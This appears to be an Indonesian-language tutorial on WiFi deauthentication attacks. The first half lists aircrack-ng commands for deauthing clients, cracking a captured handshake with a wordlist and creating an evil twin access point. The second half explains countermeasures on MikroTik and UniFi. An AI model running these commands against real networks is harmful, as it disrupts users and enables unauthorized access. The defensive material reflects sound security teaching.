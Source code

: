 ```yaml
---
draft: true
---
```


# Deauthentication Attack

## Pendahuluan
Deauthentication attack adalah serangan DoS pada WiFi dengan mengirim paket deauthentication palsu, memutus koneksi perangkat dari jaringan.

## Cara Kerja
Serangan ini memanfaatkan celah protokol IEEE 802.11, di mana penyerang mengirimkan paket deauthentication agar perangkat target terputus dari jaringan.

### 1. Mengaktifkan Monitor Mode
```bash
airmon-ng start wlan0  # Aktifkan monitor mode
```

### 2. Mencari Target
```bash
airodump-ng wlan0mon  # Scan jaringan
```

### 3. Menjalankan Serangan Deauthentication
```bash
aireplay-ng -0 0 -a [BSSID] -c [CLIENT] wlan0mon  # Target spesifik
aireplay-ng -0 0 -a [BSSID] wlan0mon  # Semua klien
```

### 4. Crack Password (Opsional)
```bash
airodump-ng -d [BSSID] -c [CH] -w [path] wlan0mon
aircrack-ng -w /usr/share/wordlists/rockyou.txt [file.cap]
```

### 5. Membuat AP Palsu (Evil Twin)
```bash
airbase-ng -e "Free WiFi" -c 6 wlan0mon
```

Serangan ini hanya untuk tujuan edukasi dan pengujian keamanan jaringan.

# Prevention Deauthentication

Serangan deauthentication (deauth) adalah jenis serangan yang mengeksploitasi protokol manajemen Wi-Fi untuk memutuskan koneksi pengguna dengan mengirimkan paket deauthentication palsu. Untuk mencegah serangan ini, berikut adalah beberapa metode yang dapat diterapkan:

## 1. Mengaktifkan Protected Management Frames (PMF)
PMF adalah fitur keamanan yang melindungi frame manajemen dari serangan seperti deauth. 

- **MikroTik:**
  ```bash
  /interface wireless security-profiles set [find default=yes] management-protection=required
  ```
  *Pastikan perangkat klien mendukung PMF agar tetap dapat terhubung.*

- **Ubiquiti UniFi:**
  - Buka **UniFi Controller** → **Settings** → **Wireless Networks** → Pilih SSID yang ingin diamankan.
  - Di bagian **Advanced Options**, atur **PMF** ke `Optional` atau `Required`.

## 2. Menggunakan WPA3 atau WPA2-Enterprise
WPA3 memiliki proteksi tambahan terhadap serangan deauth.

- **MikroTik:**
  ```bash
  /interface wireless security-profiles set [find default=yes] authentication-types=wpa2-eap,wpa3-eap
  ```
  *Jika perangkat tidak mendukung WPA3, gunakan mode transisi dengan WPA2.*

- **UniFi:**
  - Masuk ke **UniFi Controller** → **Settings** → **Wireless Networks**.
  - Pilih **WPA3** atau **WPA2/WPA3 Transition Mode** untuk kompatibilitas perangkat lama.

## 3. Menonaktifkan Penyiaran SSID dan Menggunakan Pemfilteran MAC

Menonaktifkan SSID membuat jaringan tidak terlihat oleh perangkat biasa, meskipun masih bisa dideteksi oleh peretas berpengalaman.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] hide-ssid=yes
  ```
- **UniFi:**
  - Masuk ke **UniFi Controller** → **Settings** → **Wireless Networks**.
  - Centang **Hide SSID** untuk menyembunyikan SSID dari pemindaian.

Pemfilteran MAC dapat digunakan untuk membatasi perangkat yang dapat terhubung.

## 4. Menggunakan Dual-Band dan Load Balancing

Menggunakan SSID terpisah untuk 2.4 GHz dan 5 GHz dapat mengurangi dampak serangan jika salah satu jaringan mengalami deauth.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] frequency=2.4GHz ssid=SSID_2.4GHz
  /interface wireless set [find default-name=wlan2] frequency=5GHz ssid=SSID_5GHz
  ```

- **UniFi:**
  - Buat dua SSID terpisah untuk 2.4 GHz dan 5 GHz di **UniFi Controller**.
  - Aktifkan **Band Steering** untuk membantu perangkat memilih frekuensi terbaik.

## 5. Menggunakan IDS/IPS untuk Mendeteksi dan Memblokir Serangan
Sistem Intrusion Detection System (IDS) dan Intrusion Prevention System (IPS) dapat mendeteksi dan mencegah serangan deauth.

- **UniFi:**
  - Aktifkan **Threat Management** di **Settings** → **Firewall & Security**.

- **MikroTik:**
  - Gunakan fitur Wireless Intrusion Detection System (WIDS) untuk memonitor aktivitas mencurigakan.

## 6. Membatasi Jangkauan Sinyal dan Menggunakan AP dengan Anti-Jamming
Mengurangi daya pancar sinyal WiFi dapat mengurangi kemungkinan jaringan terdeteksi oleh penyerang.

- **MikroTik:**
  ```bash
  /interface wireless set [find default-name=wlan1] tx-power=15
  ```
- **UniFi:**
  - Masuk ke **UniFi Controller** → **Devices** → Pilih AP → **Config** → **Radio** → Atur **Transmit Power**.

## 7. Monitoring dan Logging Aktivitas Jaringan
Memonitor log jaringan dapat membantu mendeteksi percobaan serangan deauth.

- **MikroTik:**
  ```bash
  /system logging add topics=wireless action=memory
  ```

- **UniFi:**
  - Gunakan fitur **Insights** dan **Logs** di **UniFi Controller** untuk memantau anomali jaringan.

---

Dengan menerapkan metode di atas, risiko serangan deauth dapat diminimalisir secara signifikan, menjaga koneksi Wi-Fi tetap stabil dan aman dari gangguan pihak luar.

### Sumber:
Artikel ini disusun berdasarkan referensi dari:

- [SudoRealm - Deauthentication Attack using Kali Linux](https://sudorealm.com/blog/deauthentication-attack-using-kali-linux)
- [Aircrack-ng - Newbie Guide](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
- [InkyVoxel - How to Enable Monitor Mode](https://www.inkyvoxel.com/how-to-enable-monitor-mode)